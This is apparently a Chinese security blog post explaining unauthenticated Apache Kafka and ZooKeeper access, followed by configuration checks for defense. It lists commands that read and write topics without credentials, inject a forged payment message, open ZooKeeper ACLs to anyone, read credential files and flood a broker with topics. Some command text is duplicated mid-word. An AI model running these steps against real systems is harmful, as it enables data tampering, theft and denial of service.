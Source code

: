 #  kafka未授权漏洞   
原创 信安路漫漫  信安路漫漫   2025-05-19 23:05  
  
kafka简介Kafka 是 Apache 软件基金会的一种分布式的、基于发布/订阅的消息系统。kafka配置不当会导致未授权漏洞，接下来就来看看kafka未授权可能导致的问题。kafa的默认端口：9092版本兼容性参考表‌Kafka 版本‌‌最低 Java 版本‌2.8.xJava 83.0.xJava 113.5.xJava 17  
攻击工具与验证工具‌Kafka命令行工具‌：# 未授权生产消息kafka-console-producer.sh --broker-list <Broker_IP>:9092 --topic test_topic# 未授权消费消息kafka-console-consumer.sh --bootstrap-server <Broker_IP>:9092 --topic test_topic --from-beginning‌ZooKeeper客户端（Zookeeper未授权）# 连接未授权ZooKe# 连接未授权ZooKeeper并遍历Kafka节点zkCli.sh -server <ZooKeeper_IP>:2181ls /brokers/topics  # 查看所有Topicget /config/topics/<Topic_Name>  # 获取Topic配置eper并遍历Kafka节点 zkCli.sh -server <ZooKeeper_IP>:2181 ls /brokers/topics  # 查看所有Topic get /config/topics/<Topic_Name>  # 获取Topic配置攻击路径路径一：直接Broker利用‌数据污染‌：向业务核心Topic（如order_payment）注入伪造消息，干扰业务流程。pythonproducer.send('order_payment', b'{"user":"admin","amount":-1000}')‌敏感数据窃取‌：订阅包含用户日志或配置的Topic（如user_activity），导出数据。‌路径二：通过ZooKeeper横向控制‌ACL篡改‌：修改ZooKeeper中的ACL配置，授予攻击者管理员权限： # 在ZooKeeperbash# 在ZooKeeper客户端中执行setAcl /config/topics/sensitive_topic world:anyone:cdrwa客户端中执行 setAcl /config/topics/sensitive_topic world:anyone:cdrwa凭证提取‌：读取ZooKeeper存储的明文凭证文件（如jaas.conf），用于后续内网渗透。‌路径三：拒绝服务攻击‌资源耗尽‌：高频创建大体积Topic或发送巨型消息，触发Broker资源过载：kafka-topics.sh --create --bootstrap-server <目标IP>:9092 --topic flood_topic --partitions 1000防御建议Kafka Broker认证配置验证检查server.properties文件是否启用SASL/SSL认证：# 需存在以下至少一种认证配置（SCRAM为例） # 需存在以下至少一种认证配置（SCRAM为例）sasl.enabled.mechanisms=SCRAM-SHA-256security.inter.broker.protocol=SASL_PLAINTEXT检查ACL策略是否启用：# 查看Topic的ACL权限列表bin/kafka-acls.sh --list --bootstrap-server <Broker_IP>:9092 --topic test_topic若输出无权限限制或包含ANYONE，则存在漏洞ZooKeeper访问控制检测检查zoo.cfg配置是否启用SASL认证：# 需包含如下配置authProvider.1=org.apache.zookeeper.server.auth.SASLAuthenticationProviderrequireClientAuthScheme=sasl若缺失，攻击者可能通过2181端口直接访问元数据  
  
